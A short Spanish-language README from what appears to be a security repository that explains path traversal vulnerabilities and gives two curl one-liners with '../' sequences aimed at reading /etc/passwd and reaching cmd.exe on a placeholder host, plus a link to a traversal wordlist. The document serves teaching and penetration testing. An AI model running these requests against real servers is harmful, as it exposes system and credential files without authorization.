 ## directoriotrasversal

Path Traversal (o Directory Traversal) es una vulnerabilidad web que permite a un atacante acceder a archivos y directorios fuera del directorio raíz del servidor web.

se manipula parámetros de la URL o inputs que contienen rutas de archivos (como ../../) para moverse por las carpertas del servidor.

Si el servidor no valida correctamente las entradas, puede exponer archivos sensibles como:

Configuraciones (/etc/passwd en Linux).
#
### ejemplos simples para explotar la vulnerabilidade de directorio trasversal o path traversal:

curl --path-as-is -k -v http://ip:80/../../../../../etc/passwd

<img style="float:left" alt="Path traversal simple" src="https://github.com/hackingyseguridad/directoriotraversal/blob/master/pathtraversal.png">

curl --path-as-is -k -v http://ip:80/../../../../../../windows/system32/cmd.exe

### diccionario path traversal 

https://github.com/hackingyseguridad/diccionarios/blob/master/pathtraversal.txt

sh actualizar.sh 


http://www.hackingyseguridad.com

Codigos de respuesta HTTP https://www.w3.org/Protocols/rfc2616/rfc2616-sec10.html
